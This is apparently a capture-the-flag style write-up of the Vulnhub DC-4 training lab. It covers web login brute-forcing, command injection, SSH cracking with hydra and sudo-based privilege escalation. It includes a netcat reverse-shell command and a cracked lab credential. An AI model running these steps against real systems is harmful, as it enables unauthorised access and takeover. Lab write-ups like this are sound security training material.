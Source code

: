 ```yaml
---
title:     "Vulnhub - DC 4"
tags: [easy,hydra,intruder]
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/1.1.png)
We are going to pwn DC 4 by DCAU7 from Vulnhub


## Description
>DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
Unlike the previous DC releases, this one is designed primarily for  beginners/intermediates. There is only one flag, but technically,  multiple entry points and just like last time, no clues.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer, instead, I'll give you an idea about how  to move forward.


Download Link: <https://www.vulnhub.com/entry/dc-4,313/>

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.8
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/26 19:35:19 Starting gobuster
===============================================================
/css (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/26 19:35:20 Finished
===============================================================
```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/1.png)

It looks like login Page 
So i tried some normal sql injection but none worked so lets try bruteforce
We can use Burp Intruder for that

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/2.png)

Attack type : Cluster Bomb

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/3.png)

Now in payload , load wordlist and start attack!

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/4.png)

This one gives different length it might be the password <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/5.png)

And yes I logged in.
After login I got a page Command.php<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/6.png)<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/7.png)

## Getting Shell

It looks like , it executes system commands.
So I intercept the command with burp and got a reverse shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/8.png)

> nc -e /bin/sh 10.0.2.18 1234 


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/9.png)

We got a Shell!!

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/10.png)

So while searching for anything usefull i found ``old-passwords.bak``

Since i found it in jim directory, lets bruteforce with ``jim``

## Getting User Jim

Lets start bruteforcing the ssh port using hydra

> hydra - a very fast network logon cracker which supports many different services

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/11.png)

we found the password is ``jim:jibril04``

Found some users too

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/12.png)

## Getting User Charles

While Checking jim directory there is ``mbox``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/13.png)

Since it looks like mail we check ``/var/mail``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/14.png)

It gives password for ``charles`` I su to charles

## Privilege Escalation

``sudo -l`` shows we can run ``teehee`` with root permission

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/15.png)

It looks like we can overwrite any file so i created new user with root permission without password!

Got ROOT !!

``Flag``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/16.png)






